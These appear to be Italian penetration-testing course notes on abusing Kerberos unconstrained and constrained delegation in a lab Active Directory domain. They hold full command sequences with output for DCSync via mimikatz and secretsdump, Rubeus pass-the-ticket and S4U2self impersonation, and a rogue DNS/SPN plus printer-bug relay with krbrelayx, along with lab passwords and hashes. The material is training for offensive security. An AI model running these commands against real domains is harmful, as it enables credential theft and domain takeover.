[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (10.129.1.207)
[*] Building TGS-REQ renewal for: 'INLANEFREIGHT.LOCAL\DC01$'
[+] TGT renewal request successful!
[*] base64(ticket.kirbi):

      doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCBFVhggRRMIIETaADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      QUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggQDMIID/6ADAgESoQMC
      AQKiggPxBIID7W7EOz2Zqm1a6b9/cCHeJbZdt0qgV8Wgw1BS2Jctk8X9l6ibkK7G+s/jyPDL6ReV0OvP
      p3ClWOjdoLO3jH<SNIP>
    
[+] Ticket successfully imported!
```

Ora che abbiamo il TGT ```DC01$``` in memoria, possiamo eseguire l'attacco ```DCsync``` per recuperare l'hash della password NTLM di un utente target. In questo esempio, recuperiamo i segreti per l'utente sarah.lafferty.
```
C:\Tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
  
mimikatz # lsadump::dcsync /user:sarah.lafferty

[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'sarah.lafferty' will be the user account

Object RDN           : sarah.lafferty

** SAM ACCOUNT **

SAM Username         : sarah.lafferty
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   :
Password last change : 8/14/2020 4:06:13 AM
Object Security ID   : S-1-5-21-2974783224-3764228556-2640795941-1122
Object Relative ID   : 1122

Credentials:
  Hash NTLM: 0fcb586d2aec31967c8a310d1ac2bf50
    ntlm- 0: 0fcb586d2aec31967c8a310d1ac2bf50
    ntlm- 1: cf3a5525ee9414229e66279623ed5c58
    lm  - 0: 2fd05b1ff89bfeed627937845f3bc535
    lm  - 1: 3cf0c818426269923b3a993b071b81d5

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : e27b6e4d84697eb7cf50dc6d0efdb226

* Primary:Kerberos-Newer-Keys *
    Default Salt : INLANEFREIGHT.LOCALsarah.lafferty
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : ba5b9b6850a1aea865ab1a7fdc895d1e27f39c327b8f7d4c96132b4438727386
      aes128_hmac       (4096) : bee242dbe9cb898c67b8075e13384b22
      des_cbc_md5       (4096) : 029e1c2af1237351
    OldCredentials
      aes256_hmac       (4096) : 13b57fa4a6c0f4adce4b1d85e64a909d35dce98736909f370154f9bd08b8bc67
      aes128_hmac       (4096) : 1fdbc782bcdfcd692923dc54785d5ee1
      des_cbc_md5       (4096) : ba677a73a82a2a9e

* Primary:Kerberos *
    Default Salt : INLANEFREIGHT.LOCALsarah.lafferty
    Credentials
      des_cbc_md5       : 029e1c2af1237351
    OldCredentials
      des_cbc_md5       : ba677a73a82a2a9e

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  966bec5d60500f0e964fb78be94cc0a8
    02  1abbf4255613844082376a5288cfcfb2
    03  c74c93a52310d2a88581ffb075aeff33
    <SNIP>
```

Possiamo acquisire l'hash di qualsiasi account, come ad esempio l'account Amministratore, e quindi utilizzare Rubeus o Mimikatz per ottenere un ticket dall'account compromesso. Ad esempio, prendiamo l'hash di Sarah ```0fcb586d2aec31967c8a310d1ac2bf50e``` creiamo un ticket con esso:
```
# Utilizzo di Rubeus per richiedere un biglietto come Sarah
PS C:\Tools> .\Rubeus.exe asktgt /rc4:0fcb586d2aec31967c8a310d1ac2bf50 /user:sarah.lafferty /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 0fcb586d2aec31967c8a310d1ac2bf50
[*] Building AS-REQ (w/ preauth) for: 'INLANEFREIGHT.LOCAL\sarah.lafferty'
[*] Using domain controller: 172.16.99.3:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
<SNIP>
```

Ora possiamo usare questo biglietto e impersonare Sarah:
```
# Utilizzo del ticket di Sarah per accedere al controller di dominio
PS C:\Tools> dir \\dc01.inlanefreight.local\c$

 Volume in drive \\dc01.inlanefreight.local\c$ has no label.
 Volume Serial Number is 7674-0745

 Directory of \\dc01.inlanefreight.local\c$

07/27/2020  05:56 PM    <DIR>          Department Shares
07/16/2016  06:23 AM    <DIR>          PerfLogs
07/28/2020  05:35 AM    <DIR>          Program Files
07/27/2020  12:14 PM    <DIR>          Program Files (x86)
07/27/2020  07:37 PM    <DIR>          Software
07/30/2020  07:15 PM    <DIR>          Tools
07/30/2020  11:49 AM    <DIR>          Users
07/30/2020  09:13 AM    <DIR>          Windows
               0 File(s)              0 bytes
               8 Dir(s)  27,711,119,360 bytes free
```

##### Se il computer di destinazione non è un Domain Controller
```
Scenario normale (quello visto prima):
Catturi TGT di DC01$ → DCSync → fine

Questo scenario:
Catturi TGT di FILE01$ (non è un DC)
         ↓
Non puoi fare DCSync (non è un DC)
         ↓
Usi S4U2Self con il TGT di FILE01$
per impersonare Administrator
verso i servizi di FILE01$
```

Il caso d'uso reale è quando con il Printer Bug (o altro) hai catturato il TGT di un account macchina normale, es:
```
FILE01$   → non è un DC → DCSync non funziona
WEBSRV01$ → non è un DC → DCSync non funziona
SQL01$    → non è un DC → DCSync non funziona
```
In questi casi non puoi fare DCSync, quindi usi S4U2Self per:
```
TGT di FILE01$ 
    ↓ S4U2Self
TGS per CIFS/FILE01 as Administrator
    ↓
Accesso completo al filesystem di FILE01
```

Se il computer di destinazione non è un controller di dominio, o se vogliamo eseguire attacchi diversi da quelli predefiniti DCSync, possiamo utilizzare S4U2self per ottenere un Service Ticket per conto di qualsiasi utente che desideriamo impersonare.

Con il ticket catturato DC01 utilizzando Rubeus monitor o SpoolSample possiamo usare ```Rubeus s4u /self``` per creare un ticket di servizio per qualsiasi servizio. Creiamo un ticket per connetterci tramite SMB utilizzando il servizio CIFS. Dovremo usare Rubeus s4u /self```, impostare il servizio alternativo su CIFS e usare il ticket che abbiamo:

```
PS C:\Tools> .\Rubeus.exe s4u /self /nowrap /impersonateuser:Administrator /altservice:CIFS/dc01.inlanefreight.local /ptt /ticket:doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCB<SNIP>
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2

[*] Action: S4U

[*] Action: S4U

[*] Building S4U2self request for: 'DC01$@INLANEFREIGHT.LOCAL'
[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (172.16.99.3)
[*] Sending S4U2self request to 172.16.99.3:88
[+] S4U2self success!
[*] Substituting alternative service name 'CIFS/dc01.inlanefreight.local'
[*] Got a TGS for 'Administrator' to 'CIFS@INLANEFREIGHT.LOCAL'
[*] base64(ticket.kirbi):
<SNIP>
```

Questo comando ci permette di impersonare ```Administrator```  e richiedere un ticket di servizio per il servizio CIFS, abilitando le connessioni SMB come l'utente impersonato. **Questo metodo è particolarmente utile negli scenari in cui disponiamo di un ticket proveniente da un computer che non è un controller di dominio.**

> Attenzione però! L'account Administrator built-in in molti domini moderni ha il flag: "Account is sensitive and cannot be delegated" 
> Oppure potrebbe essere membro del gruppo Protected Users, che impedisce che il suo TGS venga usato per delegation. In caso si ha bisogno di un altro utente appartenente a Domain Admins.

```
PS C:\Tools> ls \\dc01.inlanefreight.local\c$

    Directory: \\dc01.inlanefreight.local\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         4/3/2023   2:58 PM                carole.holmes
d-----        2/25/2022  10:20 AM                PerfLogs
d-r---        10/6/2021   3:50 PM                Program Files
d-----        4/12/2023   3:24 PM                Program Files (x86)
d-----        3/30/2023  11:08 AM                Shares
d-----         4/4/2023   1:49 PM                Tools
d-----        3/30/2023   3:13 PM                Unconstrained
d-r---         4/4/2023  11:34 AM                Users
d-----       10/14/2022   6:49 AM                Windows
```

> Perché funziona con un account macchina?
>
> Gli account macchina (DC01$) hanno implicitamente S4U2Self abilitato — possono richiedere TGS per sé stessi on behalf di qualsiasi utente, esattamente come un account di servizio.


### Unconstrained Delegation - Users
- Con un computer (SQL01$) potevi usare SpoolSample per forzare il DC a connettersi. Con un utente non puoi fare la stessa cosa — nessuno si "connette" spontaneamente a un utente.

La soluzione è creare una trappola DNS:
```
sqldev ha TRUSTED_FOR_DELEGATION + SPN MSSQL_svc_dev/...
         ↓
Aggiungi SPN CIFS/roguecomputer.inlanefreight.local a sqldev
         ↓
Crea DNS record roguecomputer → il tuo IP
         ↓
Forza DC01 a connettersi a roguecomputer via PrinterBug
         ↓
DC01 chiede TGS per CIFS/roguecomputer
→ sqldev ha quel SPN → DC01 manda il suo TGT dentro il TGS
         ↓
krbrelayx riceve il TGS, lo decifra con l'hash di sqldev
→ estrae il TGT di DC01$
```

Gli utenti in Active Directory possono anche essere configurati per l'unconstrained delegation, e sfruttarla è piuttosto diverso. Per ottenere un elenco di account utente con questo flag impostato, possiamo utilizzare la funzione PowerView  ```Get-DomainUser``` con un filtro LDAP specifico che cercherà gli utenti con il flag ```TRUSTED_FOR_DELEGATION``` impostato nel loro UAC.
```
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"

logoncount            : 0
badpasswordtime       : 12/31/1600 7:00:00 PM
distinguishedname     : CN=sqldev,OU=Service Accounts,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL
objectclass           : {top, person, organizationalPerson, user}
name                  : sqldev
objectsid             : S-1-5-21-2974783224-3764228556-2640795941-1110
samaccountname        : sqldev
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : 12/31/1600 7:00:00 PM
countrycode           : 0
whenchanged           : 8/4/2020 4:49:56 AM
instancetype          : 4
objectguid            : f71224a5-baa7-4aec-bfe9-56778184dc63
lastlogon             : 12/31/1600 7:00:00 PM
lastlogoff            : 12/31/1600 7:00:00 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL
dscorepropagationdata : {7/30/2020 3:09:16 AM, 7/30/2020 3:09:16 AM, 7/28/2020 1:45:00 AM, 7/28/2020 1:34:13 AM...}
serviceprincipalname  : MSSQL_svc_dev/inlanefreight.local:1443
memberof              : CN=Protected Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
whencreated           : 7/27/2020 6:46:20 PM
badpwdcount           : 0
cn                    : sqldev
useraccountcontrol    : NORMAL_ACCOUNT, TRUSTED_FOR_DELEGATION
usncreated            : 14648
primarygroupid        : 513
pwdlastset            : 7/27/2020 2:46:20 PM
usnchanged            : 90194
```

Questo attacco mira a creare un record DNS che punti alla nostra macchina d'attacco. Questo record DNS corrisponderà a un computer fittizio nell'ambiente Active Directory. Una volta registrato il record DNS, aggiungeremo l'SPN ```CIFS/our_dns_record``` all'account compromesso, che si trova in un unconstrained delegation. Pertanto, se una vittima tenta di connettersi tramite SMB alla nostra macchina fittizia, invierà una copia del suo TGT nel ticket TGS, poiché richiederà un ticket per ```CIFS/our_registration_dns```. Questo ticket TGS verrà inviato all'indirizzo IP scelto durante la registrazione del record DNS, ovvero la nostra macchina d'attacco. A quel punto, non dovremo far altro che estrarre il TGT e utilizzarlo.

Però per eseguire questo attacco servono due condizioni:

- Condizione 1 — Compromettere sqldev
  - Devi già avere le credenziali (o l'hash) di sqldev. Questo perché:
    ```
    krbrelayx.py -hashes :cf3a5525ee9414229e66279623ed5c58
    ```
    Ha bisogno dell'hash di sqldev per decifrare il TGS che arriva e estrarre il TGT di ```DC01$``` dentro.

- Condizione 2 — GenericWrite su sqldev
  - Devi poter modificare la lista SPN di ```sqldev``` per aggiungere ```CIFS/roguecomputer.inlanefreight.local```.
    ```
    python addspn.py ... -t sqldev -s CIFS/roguecomputer.inlanefreight.local
    ```
    Questo richiede il permesso GenericWrite sull'account sqldev in AD. Normalmente un utente non può modificare i propri SPN — serve un account con quel privilegio.

Quindi:
```
Scenario reale:
Hai compromesso pixis
         ↓
pixis ha GenericWrite su sqldev ✅
         ↓
Hai anche le credenziali di sqldev ✅
         ↓
Puoi aggiungere SPN a sqldev con pixis
e usare l'hash di sqldev per krbrelayx
         ↓
Attacco possibile 🔴
```

Per questo attacco utilizzeremo la suite di strumenti krbrelayx di Dirkjanm (https://github.com/dirkjanm/krbrelayx).

Innanzitutto, useremo questo metodo ```dnstool.py``` per aggiungere un record DNS falso ```roguecomputer.inlanefreight.local``` che punta al nostro host di attacco ```10.10.14.2``` utilizzando un qualsiasi account di dominio valido.

```
# Crea un record DNS falso
Nanan@htb[/htb]$ git clone -q https://github.com/dirkjanm/krbrelayx; cd krbrelayx
Nanan@htb[/htb]$ python dnstool.py -u INLANEFREIGHT.LOCAL\\pixis -p p4ssw0rd -r roguecomputer.INLANEFREIGHT.LOCAL -d 10.10.14.2 --action add 10.129.1.207    

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```
Possiamo verificare se il record DNS è stato creato utilizzando nslookup.
```
# Verifica del record DNS
Nanan@htb[/htb]$ nslookup roguecomputer.inlanefreight.local dc01.inlanefreight.local

Server:     dc01.inlanefreight.local
Address:    10.129.1.207#53

Name:   roguecomputer.inlanefreight.local
Address: 10.10.14.2
```
Quindi aggiungiamo un SPN creato appositamente al nostro account di destinazione utilizzando ```addspn.py```. L'SPN deve essere ```CIFS/dns_entry```, quindi nel nostro caso utilizziamo l'opzione ```-s``` seguita da ```CIFS/roguecomputer.inlanefreight.local```. ```CIFS``` sta per Common Internet File System, equivalente a SMB. L'opzione  ```--target-type samname``` specifica che la destinazione è un nome utente; se non specificato, ```krbrelayx``` presume che sia un nome host.
```
# Creare SPN sull'utente di destinazione (sqldev)
Nanan@htb[/htb]$ python addspn.py -u inlanefreight.local\\pixis -p p4ssw0rd --target-type samname -t sqldev -s CIFS/roguecomputer.inlanefreight.local dc01.inlanefreight.local 

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```

Qualsiasi account che tenti di autenticarsi tramite SMB ```roguecomputer.inlanefreight.local``` avrà una copia del suo TGT nel ticket TGS richiesto. Possiamo usare lo strumento PrinterBug per forzare ```DC01$``` ad autenticarsi con il nostro host falso. Ma prima, dobbiamo cercare il ticket TGS e il TGT sul nostro host attaccante usando ```krbrelayx.py```. Forniamo a questo strumento la chiave segreta dell'account compromesso (hash NT) per decrittografare il ticket TGS ricevuto. In questo caso l'account compromesso e il target è sqldev, quindi dobbiamo fornire il suo hash (```cf3a5525ee9414229e66279623ed5c58```) per decrittografare il ticket TGS ricevuto.
```
# Utilizzando Krbrelayx
Nanan@htb[/htb]$ sudo python krbrelayx.py -hashes :cf3a5525ee9414229e66279623ed5c58

[*] Protocol Client SMB loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Running in export mode (all tickets will be saved to disk)
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
```

Se si verifica un errore durante l'esecuzione ```krbrelayx.py```, è necessario rimuovere o aggiornare l'installazione di impacket. I seguenti passaggi descrivono come rimuovere impacket e reinstallarlo dalla sorgente:
```
# Rimozione e installazione dell'impacchettamento dalla sorgente
Nanan@htb[/htb]$ sudo apt remove python3-impacket
...SNIP...
Nanan@htb[/htb]$ sudo apt remove impacket-scripts
...SNIP...
Nanan@htb[/htb]$ git clone -q https://github.com/fortra/impacket;cd impacket
Nanan@htb[/htb]$ sudo python3 -m pip install .
...SNIP...
```

Quindi sfruttiamo il printer bug. Possiamo usare ```dementor.py``` o ```printerbug.py``` disponibili con ```krbrelayx```.

```
# Sfruttare il printer bug e con printerbug.py
Nanan@htb[/htb]$ python3 printerbug.py inlanefreight.local/carole.rose:jasmine@10.129.205.35 roguecomputer.inlanefreight.local

[*] Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[*] Attempting to trigger authentication via rprn RPC at 10.129.205.35
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Triggered RPC backconnect, this may or may not have worked
```

In alternativa possiamo usare ```dementor.py```, invece di ```printerbug.py```:
```
# Sfruttare il bug della stampante con dementor.py
Nanan@htb[/htb]$ python dementor.py -u pixis -p p4ssw0rd -d inlanefreight.local roguecomputer.inlanefreight.local dc01.inlanefreight.local

[*] connecting to dc01.inlanefreight.local
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] done!
```
> Nota: non è necessario utilizzare entrambi gli strumenti, ne basta uno solo.

Ciò ha innescato un tentativo di autenticazione di ```DC01``` verso il nostro host attaccante e lo strumento ha estratto automaticamente il TGT incorporato nel ticket TGS.

```
Krbrelayx esegue l'attacco
Nanan@htb[/htb]$ sudo python krbrelayx.py -hashes :cf3a5525ee9414229e66279623ed5c58

[*] Protocol Client SMB loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Running in export mode (all tickets will be saved to disk)
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
[*] SMBD: Received connection from 10.129.1.207
[*] Got ticket for DC01$@INLANEFREIGHT.LOCAL [krbtgt@INLANEFREIGHT.LOCAL]
[*] Saving ticket in DC01$@INLANEFREIGHT.LOCAL_krbtgt@INLANEFREIGHT.LOCAL.ccache
[*] SMBD: Received connection from 10.129.1.207
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
[*] SMBD: Received connection from 10.129.1.207
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
```

Questo TGT è stato salvato su disco nel seguente file ```DC01$@INLANEFREIGHT.LOCAL_krbtgt@INLANEFREIGHT.LOCAL.ccache```.

Infine, possiamo utilizzare impacket per utilizzare questo ticket esportandone il percorso nella variabile d'ambiente ```KRB5CCNAME``` e quindi utilizzando ```secretsdump.py``` per eseguire un DCSync.

```
# Utilizzo di Impacket con autenticazione Kerberos per l'attacco DCSync

Nanan@htb[/htb]$ export KRB5CCNAME=./DC01\$@INLANEFREIGHT.LOCAL_krbtgt@INLANEFREIGHT.LOCAL.ccache
Nanan@htb[/htb]$ secretsdump.py -k -no-pass dc01.inlanefreight.local

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
INLANEFREIGHT.LOCAL\Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:810d754e118439bab1e1d13216150299:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
daniel.carter:1109:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
sqldev:1110:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
sqlprod:1111:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
sqlqa:1112:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
svc-backup:1113:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
svc-scan:1114:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
<SNIP>
```

> Nota: utilizzare il comando unset KRB5CCNAMEper annullare il valore della variabile d'ambienteKRB5CCNAME


## Constrained Delegation (S4U2Proxy)
Poiché la uncontrained delegation non è molto restrittiva, la constrained delegation è un altro tipo di delega "più restrittiva". In questo caso, un servizio ha il diritto di impersonare un utente presso un elenco ben definito di servizi. In questo esempio, ```WEBSRV``` può inoltrare l'autenticazione solo al ```SQL/DBSRV``` servizio ma non agli altri.



Per comprendere questa sezione è necessario ricordare la struttura della richiesta AP-REQ, che è la richiesta effettuata dall’utente al servizio una volta ricevuto il ticket TGS.



Il messaggio AP-REQ contiene due elementi:
- un autenticatore
- un ticket TGS

Il Service Ticket (TGS) è composto a sua volta da due parti:
- una parte non cifrata contenente lo SPN del servizio richiesto
- una parte cifrata contenente le informazioni dell’utente e una session key

Un attaccante può modificare il nome del servizio senza invalidare la richiesta, poiché il nome del servizio non è cifrato.

Nella constrained delegation, la delega è consentita solo per un elenco specifico di SPN. Se un attaccante compromette un account con constrained delegation, può inoltrare le richieste di autenticazione ricevute verso uno o più SPN presenti nella lista.

Per farlo si utilizza l’estensione S4U2Proxy, che permette di ottenere un ticket TGS valido per conto dell’utente. L’attaccante quindi ottiene un TGS valido per uno specifico SPN destinato a un determinato account di servizio. Tuttavia non può usare quel ticket verso un altro servizio, perché il ticket è cifrato con la chiave del servizio richiesto, e altri servizi non possono decifrarlo.



Se però l’account espone più servizi, l’attaccante può modificare lo SPN per accedere a un altro servizio dello stesso account.

> Questo è molto comune negli account macchina, che espongono servizi come CIFS, SPOOLER o TERMSRV (lista Microsoft ufficiale).

In questo caso, anche se la constrained delegation consente l’accesso solo a un servizio (ad esempio SQL), l’attaccante può modificare lo SPN nella richiesta AP-REQ e accedere ad altri servizi (ad esempio CIFS). Se l’utente delegato è amministratore locale della macchina target, l’attaccante può comprometterla.



> La limitazione principale è che è necessario attendere che un utente si autentichi al servizio compromesso. Non è sempre garantito che un utente privilegiato acceda frequentemente.

### Impersonare qualsiasi utente

È possibile configurare la constrained delegation nello stesso punto in cui si configura la unconstrained delegation, cioè nella scheda ```Delegation``` dell'account. L'opzione ```Trust this computer for delegation to specified services only``` deve essere selezionata. Come per la unconstrained delegation, questa opzione non è modificabile di default da un account.



> Se il protocol transition è attivo, si può usare S4U2Self, che permette a un servizio di ottenere un ticket TGS forwardable verso se stesso per conto di qualsiasi utente.
> Questo permette di ottenere un TGS come qualsiasi utente senza attendere che qualcuno si autentichi.

Quando questa opzione è abilitata, l'elenco dei servizi consentiti per la delega viene memorizzato nell'attributo ```msDS-AllowedToDelegateTo``` dell'account responsabile della delega.



Con Unconstrained, il DC metteva il TGT direttamente nel TGS. Con Constrained è diverso:
```
1. Utente si autentica a WEBSRV
   → manda il suo TGS a WEBSRV

2. WEBSRV vuole accedere a SQL/DBSRV per conto dell'utente
   → Non ha il TGT dell'utente!
   → Fa una richiesta TGS speciale al DC con:
      ├── additional tickets = copia del TGS dell'utente
      └── cname-in-addl-tkt flag = "usa le info dell'utente, non le mie"

3. Il DC verifica:
   ├── WEBSRV ha SQL/DBSRV in msDS-AllowedToDelegateTo?
   └── Il TGS dell'utente è forwardable (che è di default ma si può disabilitare con il flag "Account is sensitive and cannot be delegated" nelle falg UAC dell'utente)?

